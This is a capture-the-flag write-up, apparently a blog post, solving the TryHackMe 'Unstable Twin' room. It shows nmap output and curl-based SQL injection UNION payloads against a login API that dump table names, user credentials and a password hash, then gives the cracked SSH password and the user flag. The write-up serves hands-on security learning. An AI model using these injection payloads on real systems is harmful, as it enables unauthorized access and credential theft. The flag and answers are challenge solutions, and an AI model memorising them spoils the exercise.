 ```yaml
---
layout: post
title:  "Unstable Twin"
date:   2021-05-20 17:06:25
categories: Pentesting
---
```


Prompt:https://tryhackme.com/room/unstabletwin

# Solution

Starting with the usual Nmap scan, we discover that only 2 ports are open.

```py
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1

```
On running the gobuster scan we get 2 directories /api (with status 404) and /info (with status 200) which tells us that the login API needs to be called with username and password on visiting /info .

To get the build version we send a request to /info 

```py
curl -i -s http://10.10.196.16/info

```
However it returned 1.3.6-final (which did not turn out to be the correct answer),so I thought it is some machine error and so I sent the request again and (much to my bewilderment) got a different build version.

```
1.3.4-dev
```
After this I sent a request to the login API with an arbitrary username and password as directed in /info and got the result that the credentials are incorrect

```py
curl -XPOST 'http://10.10.196.16/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
```
The box has an SQLi tag so i decided to try exploiting it in that direction and tried to list our the table names in the sqlite_master database. 
Basically sqlite_master is the master listing of all database objects in the database and the SQL used to create each object. 
The sqlite_master contains the following columns:

```
The sqlite_master table contains the following columns:

Column Name	Description
type	        The type of database object such as table, index, trigger or view.
name	        The name of the database object.
tbl_name	The table name that the database object is associated with.
rootpage	Root page.
sql	        SQL used to create the database object.

```
So I basically have to display the information stored in tbl_name column.
Here's my request:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,group_concat(tbl_name) from sqlite_master where type='table' -- -&password=admin"



[
  [
    1, 
    "users,sqlite_sequence,notes"
  ]
]

```
Now sqlite_sequence is one of the default tables present in SQL ,so it is not probably not important right now.
So I list out the data in the **users** table :

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1' UNION SELECT username,password from users -- -&password=admin"


[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

```

But Mary Anns' password is not listed here so i proceed to similarly list the information in the **notes** table:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,notes from notes -- - -- -&password=admin"



[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422
    cf984324f645b84427343f4\n"
  ]
]

```
Seems like a hash,right? So I proceed to crack the hash online using [Crackstation](https://crackstation.net/) and get the SSH password.

```
Experiment
```
After this I log in via SSH and retieve the User Flag.

***User Flag : THM{Mary_Ann_notes}***

